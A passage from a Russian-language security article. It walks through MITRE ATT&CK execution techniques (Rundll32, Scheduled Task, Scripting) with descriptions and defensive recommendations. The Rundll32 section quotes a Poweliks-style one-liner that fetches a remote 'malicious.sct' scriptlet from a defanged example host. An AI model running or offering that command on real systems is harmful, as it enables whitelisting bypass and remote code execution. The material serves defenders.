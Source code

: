 _Рекомендации по защите:_ Attack Surface Reduction (ASR) в EMET и Advanced Theart Protection в Защитнике Windows могут обеспечить блокировку использования Regsvr32.exe для обхода белых списков.

### [Rundll32](https://attack.mitre.org/wiki/Technique/T1085) [(Poweliks)](https://www.symantec.com/security-center/writeup/2014-080408-5614-99%E2%80%8B)

_Система:_ Windows  
_Права:_ Пользователь  
_Описание:_ Rundll32.exe — это системная утилита для запуска программ, находящихся в динамически подключаемых библиотеках, может вызываться для прокси-выполнения двоичного файла, выполнения файлов элементов управления Windows (.cpl) через недокументированные функции shel32.dll — _Control_RunDLL_ и _Control_RunDLLAsUser_. Двойной клик по файлу .cpl также вызывает выполнение Rundll32.exe. Rundll32 также может использоваться для выполнения сценариев, таких как JavaScript:  
_rundll32.exe javascript:"\\..\\mshtml,RunHTMLApplication";document.write();GetObject(«scrirpt:https\[:\]//www\[.\]example\[.\]com/malicious.sct»)"_  
Вышеописанный метод использования rundll32.exe детектируется антивирусным программным обеспечением, как вирус типа Poweliks.  
Рекомендации по защите: Attack Surface Reduction (ASR) в EMET и Advanced Theart Protection в Защитнике Windows могут обеспечить блокировку использования Rundll32.exe для обхода белых списков.

### [Выполнение с помощью планирования задач Windows (Scheduled Task)](https://attack.mitre.org/wiki/Technique/T1053)

_Система:_ Windows  
_Права:_ Пользователь, администратор, система  
_Описание:_ Такие утилиты как at, schtasks и Планировщик задач Windows могут использоваться для планирования запуска программ и сценариев, которые будут выполнятся в определенную дату и время. Задачу можно запланировать в удаленной системе, при условии, что для проверки подлинности используется RPC и включен общий доступ к принтерам и файлам. Кроме того, для планирования задач в удаленной системе требуются права администратора. Злоумышленники могут использовать удаленное планирование задач для выполнения программ при старте системы или в контексте определенной учетной записи.

_Рекомендации по защите:_ Включите ограничение прав на создание заданий пользователями от имени System в реестре:  
_HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa\\SubmitControl = 0_  
_Примечание:_ SubmitControl = 1, разрешит создавать задания членам группы Server Operators.

Также выполните соответствующую конфигурацию GPO:  
_Computer Configuration > \[Policies\] > Windows Settings > Security Settings > Local Policies > Security Options: Domain Controller: Allow server operators to schedule tasks: disabled_  
_Computer Configuration > \[Policies\] > Windows Settings > Security Settings > Local Policies > User Rights Assignment: Increase scheduling priority_  
Рассмотрите целесообразность применения в своей деятельности PowerSploit Framework, который содержит модуль PowerUP для поиска уязвимостей в разрешениях запланированных задач.

### [Скриптинг (Scripting)](https://attack.mitre.org/wiki/Technique/T1064)

_Система:_ Windows, Linux, macOS  
_Права:_ Пользователь  
_Описание:_ Злоумышленники могут использовать скрипты для автоматизации своих действий, ускорения операционных задач и, как следствие, сокращения времени, необходимого для получения доступа. Некоторые скриптовые языки могу использоваться для обхода механизмов мониторинга процессов путем непосредственного взаимодействия с ОС на уровне API вместо вызова других программ. Скрипты могут быть встроены в документы Office в виде макросов и затем использованы для фишинговой атаки. В этом случае злоумышленники рассчитывают на запуск пользователем файла с макросом или на то, что пользователь согласится активировать макрос. Существует несколько популярных фреймворков для реализации скриптинга — Metasploit, Veil, PowerSploit.
